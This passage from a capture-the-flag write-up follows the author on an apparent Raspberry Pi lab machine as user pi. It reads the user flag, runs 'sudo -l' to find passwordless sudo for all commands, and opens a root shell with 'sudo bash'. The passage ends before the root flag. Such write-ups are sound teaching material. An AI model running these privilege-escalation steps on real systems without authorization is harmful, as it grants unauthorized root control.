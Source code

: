 I didn't thought that this is going to work but I'm happy about it. The user pi is the only user on the system, so the flag must be in its home directory:

```bash
pi@raspberrypi:~ $ cd /home
pi@raspberrypi:/home $ ls
pi
```

## User Flag

---

Since the user pi is the only user on the system, I can get the user flag:

```bash
pi@raspberrypi:~ $ ls
background.jpg  Desktop  Documents  Downloads  Music  oldconffiles  python_games  Videos
pi@raspberrypi:~ $ cd Desktop
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt
ff**************************838d
pi@raspberrypi:~/Desktop $
```

# Privesc

---

I noticed that there is a directory called **oldconffiles**, but I could not find anything useful inside of it. The next thing I do normally is to use the `sudo -l` command:

```bash
pi@raspberrypi:~/oldconffiles/.config/pcmanfm/LXDE-pi $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Is that a joke? I can execute all commands as sudo? Without a pssword? I use bash to test this:

```bash
pi@raspberrypi:~/oldconffiles/.config/pcmanfm/LXDE-pi $ sudo bash
root@raspberrypi:/home/pi/oldconffiles/.config/pcmanfm/LXDE-pi# id
uid=0(root) gid=0(root) groups=0(root)
```

I think that was the fastest privesc I've ever done. This can't be it, but I still try to get the root flag:
